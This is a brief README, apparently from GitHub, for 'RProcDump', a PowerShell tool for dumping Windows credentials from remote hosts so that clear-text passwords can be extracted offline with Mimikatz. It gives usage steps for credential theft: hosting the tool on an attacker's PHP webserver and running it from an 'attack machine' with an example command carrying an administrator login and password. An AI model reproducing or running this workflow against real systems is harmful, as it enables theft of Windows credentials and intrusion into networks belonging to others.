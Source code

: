 # RProcDump
Remote Windows credentials dump process automation. 
Can be used to dump Windows credentials remotely and later extract clear text with Mimikatz offline.

Help:
	Host all files in a webserver able to interpret PHP (apache2 on kali linux)
	Edit prameters in procdump.ps1 and run Rprocdump.ps1 with same parameters on attack machine:
	example:

#> RProcdump -server http://127.0.0.1 -login administrator -pass password123

Need local admin privileges !!!

 Author: @ThebenyGreen
  - EyesOpenSecurity
  
Credits: Mark Russinovich Sysinternals- psexec.exe and Procdump.exe
